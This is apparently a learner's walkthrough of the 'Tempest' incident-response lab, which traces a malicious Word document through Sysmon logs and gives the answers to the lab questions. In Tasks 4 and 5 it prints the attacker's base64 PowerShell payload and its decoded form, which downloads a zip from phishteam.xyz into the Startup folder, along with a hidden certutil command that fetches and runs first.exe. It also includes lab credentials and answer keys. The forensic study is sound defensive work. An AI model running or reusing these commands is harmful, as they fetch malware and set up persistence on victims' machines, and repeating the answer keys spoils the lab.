# Tempest
## Task1)
This room aims to introduce the process of analysing endpoint and network logs from a compromised asset. Given the artefacts, we will aim to uncover the incident from the Tempest machine. In this scenario, you will be tasked to be one of the Incident Responders that will focus on handling and analysing the captured artefacts of a compromised machine.

### Prerequisites

Before we start, this room requires basic knowledge of endpoint and network security analysis. It is highly recommended to go through the following rooms before attempting this challenge.

* Windows Event Logs
* Sysom
* Wireshark: Packet Operations
* Brim

### Investigation Environment

For this incident, we have provided a Windows machine at your disposal. You may deploy the machine by clicking the Start Lab Machine button in the upper-right-hand corner of the task.
Note: The machine takes a minute to initialise. You may start accessing it once the IP address has been provided.
 
The machine will start in a split-screen view. In case the VM is not visible, use the blue Show Split View button at the top-right of the page.

### Credentials

Username:
```bash
user
```
Password:
```bash
Investigatem3!
```
IP address
```bash
10.48.132.10
```
Connection via RDP
 
## Task2) Preparation - LogAnalysis
Before we proceed, let's have a quick refresher regarding these topics, which may help build a methodology for analysing captured events:

* Log Analysis
* Event Correlation
Log Analysis

Log analysis is the process of understanding events generated by a computer to identify anomalies such as security threats, application bugs, system performance, or other risks that may impact the organisation. 

A log file is an audit trail of events or activities within the applications and systems of an organisation. Logs automatically audit any activity configured, such as system messages, authentication attempts, and network traffic generated. In addition, every log entry is audited with a timestamp of when the event occurred, which deeply aids in an investigation.

Event Correlation

Event correlation identifies significant relationships from multiple log sources, such as application logs, endpoint logs, and network logs.

Event correlation deals with identifying significant artefacts co-existing from different log sources and connecting each related artefact. For example, a network connection log may exist in various log sources, such as Sysmon logs (Event ID 3: Network Connection) and Firewall logs. Firewall logs may provide the source and destination IP, source and destination port, protocol, and the action taken. In contrast,Sysmon logs may give the process that invoked the network connection and the user running the process.

With this information, we can connect the dots of each artefact from the two data sources:

*  Source and Destination IP
*  Source and Destination Port
*  Action Taken
*  Protocol
*  Process name
*  User Account
*  Machine Name

Event correlation can build the puzzle pieces to complete the exact scenario from an investigation.

## Task3) Preparation - Tools and Artifacts
In this task, we will prepare the artefacts and introduce the tools needed for the investigation.
Compare by hash

Before conducting the investigation, one of the most important steps is to compare the artefacts by their hashes. It is a common practice to verify if the artefacts are expected as it is.You can get the hashes of each artefact by running Powershell from the taskbar and executing the following commands:
```bash
PS C:\Users\user> cd '.\Desktop\Incident Files\'
```
```bash
PS C:\Users\user\Desktop\Incident Files> ls


    Directory: C:\Users\user\Desktop\Incident Files


Mode                LastWriteTime         Length Name
––––                –––––––––––––         –––––– ––––
–a––––        6/21/2022   1:46 AM       17479060 capture.pcapng
–a––––        6/21/2022   1:30 AM        3215360 sysmon.evtx
–a––––        6/21/2022   1:29 AM        1118208 windows.evtx
```
```bash
PS C:\Users\user\Desktop\Incident Files> Get-FileHash -Algorithm SHA256 .\capture.pcapng

Algorithm       Hash                                                                   Path
–––––––––       ––––                                                                   ––––
SHA256          CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6       C:\Users\user\...
```
Toolset

The toolset needed for this task is focused on analysing Sysmon Logs, Windows Event Logs, and Packet Capture.

Endpoint Logs

To analyse Windows artefacts such as Windows Event Logs and Sysmon logs, we will use the following tools:

*   EvtxEcmd
*   Timeline Explorer
*   SysmonView
*   Event Viewer

Network Logs

To analyse the provided packet capture, we will use the following tools:

*   Wireshark
*   Brim

Note: You can access the tools listed above via the taskbar.Since some of the tools listed above such as Wireshark, Brim, Event Viewer are already covered by the prerequisite rooms, we will only cover the new ones in this section. 

EvtxEcmd & Timeline Explorer

Eric Zimmerman has created a set of forensic tools used to analyse Windows artefacts called EZTools (Eric Zimmerman's Tools) (opens in new tab). For this task, we will focus on EvtxEcmd and Timeline Explorer, as these tools are mainly used for parsing and analysing Evtx logs.
EvtxEcmd is a command-line tool which parses Windows Event Logs into different formats such as CSV, JSON, XML, etc. You may use this tool in conjunction with Timeline Explorer, created by the same author. Timeline Explorer is a GUI-based tool that functions as a data filtering and navigating application to ease incident responders in handling raw data.

To parse the provided logs, we need first to convert the EVTX logs into CSV using EvtxEcmd and then feed it into Timeline Explorer.
```bash          
PS C:\Tools\EvtxECmd> .\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\sysmon.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csvf sysmon.csv
EvtxECmd version 1.0.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/evtx

Command line: -f C:\Users\user\Desktop\Incident Files\sysmon.evtx --csv C:\Users\user\Desktop\Incident Files --csvf sysmon.csv

Warning: Administrator privileges not found!

CSV output will be saved to C:\Users\user\Desktop\Incident Files\sysmon.csv

Maps loaded: 383

Processing C:\Users\user\Desktop\Incident Files\sysmon.evtx...
Chunk count: 42, Iterating records...

Event log details
Flags: None
Chunk count: 42
Stored/Calculated CRC: EAFDE57A/EAFDE57A
Earliest timestamp: 1601-01-01 00:00:00.0000000
Latest timestamp:   2022-06-20 17:30:35.3630890
Total event log records found: 2,559

Records included: 2,559 Errors: 0 Events dropped: 0

Metrics (including dropped events)
Event ID        Count
1               238
2               2
3               92
5               3
8               3
11              1,024
12              186
13              869
15              6
22              136

Processed 1 file in 19.8850 seconds
```
For TimelineExplorer.exe, we can load the exported CSV file by doing the following: File > Open > Choose sysmon.csv from C:\Users\user\Desktop\Incident Files directory.

Once the logs are loaded, you may navigate through each column and use the input field to filter specific logs via a unique string.

Lastly, you may use the search feature in the upper right-hand corner to find a unique string that may exist on any column.

SysmonView
SysmonView is a Windows GUI-based tool that visualises Sysom Logs.
Before using this tool, we must export the log file's contents into XML via Event Viewer.

The machine will notify you once the file has been successfully exported.
Usage: 

 Go to File > Import Sysmon Event Logs then choose the 

files generated using the Event Viewer.
Once loaded, the left sidebar has search functionality that can filter a specific process in mind.
Choose the image path and session GUID to render the mapped view. 

This tool can easily view the correlated events from a specific process. The example above summarises all Sysom events related to explorer.exe

### Answer the questions below

Q1:What is the SHA256 hash of the capture.pcapng file?
```bash
 CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6 
```


Q2:What is the SHA256 hash of the sysmon.evtx file?
```bash
665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F
```

Q3:What is the SHA256 hash of the windows.evtx file?
```bash
D0279D5292BC5B25595115032820C978838678F4333B725998CFE9253E186D60
```


## Task4) Initail Access and Malicious Document
### Tempest Incident
In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a CRITICAL severity that needs further investigation.
As reported by the SOC analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:
* The malicious document has a .doc extension.
* The user downloaded the malicious document via chrome.exe.
* The malicious document then executed a chain of commands to attain code execution.
Investigation Guide

To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:

* Start with the events generated by Sysom.
* EvtxEcmd, Timeline Explorer, and SysmonView can interpret Sysom logs.
* Follow the child processes of WinWord.exe.
* Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.
* We can focus onevents such as Process Creation (Event ID 1) and Queries (Event ID 22) to correlate the activity generated by the malicious document.

Significant Data Sources:
* Sysmon logs
### Answer the questions below:
Q1:The user of this machine was compromised by a malicious document. What is the file name of the document?
```bash
free_magicules.doc
```
First we need to use the EvtxEcmd tool to convert the events into csv files

Than we open the file in the Timeline Explorer and search for doc 

Q2:What is the name of the compromised user and machine?
Format: username-machine name
```bash
benimaru-TEMPEST
```
In the same log scroll left and we will see the names 

Q3:What is the PID of the Microsoft Word process that opened the malicious document?
```bash
496
```
In process explorer we filter by file name free_magiclues.doc and looking at 6th log we can see that the winword.exe executed a process named as free_magicules.doc so its process id would be our answer.

Q4:Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?
```bash
167.71.199.191
```
First we go find the file stream of the malicious file we go to event manager and filter for event id 15 and find for free_magicules.doc open the log and see the host url 

after that search for that domain in the process explorer and filter for event id 22 
and we will see the query result for that domain.

Q4:What is the base64 encoded string in the malicious payload executed by the document?
```bash
JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==
```
For this i used cmd tool with this command
```bash
wevtutil qe "C:\Users\User\Desktop\Incident Files\sysmon.evtx" /lf:true /format:text /q:"*[EventData[Data[@Name='ParentProcessId']='496']]"
```
I query all the logs whose parent process id is 496 which is process id of word document.Looking at the first look we can see there is whole long command and if we see closely there is base64 encoded command and then putting into a file.
 
Q5:What is the CVE number of the exploit used by the attacker to achieve a remote code execution? 
Format: XXXX-XXXXX
```bash
2022-30190
```
Ok for this i copied the command and paste in google and its ai gave me the CVE on its own

## Task5) Initial Access - Stage 2 execution
### Malicious Document - Stage 2
Based on the initial findings, we discovered that there is a stage 2 execution:
* The document has successfully executed an encoded base64 command.
* Decoding this string reveals the exact command chain executed by the malicious document.
### Investigation Guide
With the following discoveries, we may refer again to the cheatsheet to continue with the investigation:
* The Autostart execution reflects explorer.exe as its parent process ID.
* Child processes of explorer.exe within the event timeframe could be significant.
* Process Creation (Event ID 1) and File Creation (Event ID 11) succeeding the document execution are worth checking
Significant Data Sources:
* Sysmon
### Answer the questions below
Q1:The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?
```bash
C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
After decoding the whole command it was this
```bash
# 1. Locate the AppData\Roaming folder path for the current user
$app = [Environment]::GetFolderPath('ApplicationData')

# 2. Change the current directory to the Windows Startup folder
cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"

# 3. Download the malicious ZIP file from the external C2 server
iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip

# 4. Extract the contents (the next-stage payload) directly into the Startup folder
Expand-Archive .\update.zip -DestinationPath .

# 5. Delete the downloaded ZIP file to clean up the footprint on disk
rm update.zip
```
So from this we an see first the attacker use envoirment variable and than combined it with \Microsoft\Windows\Start Menu\Programs\Startup
At First I was executing [Environment]::GetFolderPath('ApplicationData') this command and it was returning me C:\Users\user\AppData\Roaming so i was commbining it with \Microsoft\Windows\Start Menu\Programs\Startup 
And whole path was becoming C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup. I was keep thinking i was failing than it clicked my find that these logs are taken from different device or user so it might have differnet path.Wasted quite a time on this.So went to process explorer and filter for logs with file creation or you can paste the 
\AppData\Roaming\Microsoft\Windows\Start\update.zip to get the log for that and thats it we got it 

Q2:The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?
Format: Remove the double quotes from the log.
```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
```
For this i opened the sysmon view and went to the hirarchy tab.As we should know that winlog.exe start userinit.exe for starting process and service that user or computer needs at startup.So we can look  the at tree and see which services started at logon.

As we know that certutil(used to download files from internet) isnit a service that might be running at startup by the windows so i opend and checked the its parent command line

Q3:Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?
```bash
CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
```
I went to timeline explorer and search for first.exe as this is file that was download on logon.so on seeing logs we can see the hashes.


The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker?
Format: domain:port
```bash
resolvecyber.xyz:80
```
In these same log if we see for Event Id 22 we can actually see the domain name.


For port in same logs we go down and can see event id with 3 and open that log we will se all the details about that network connection.
[image18](images/pci23.png)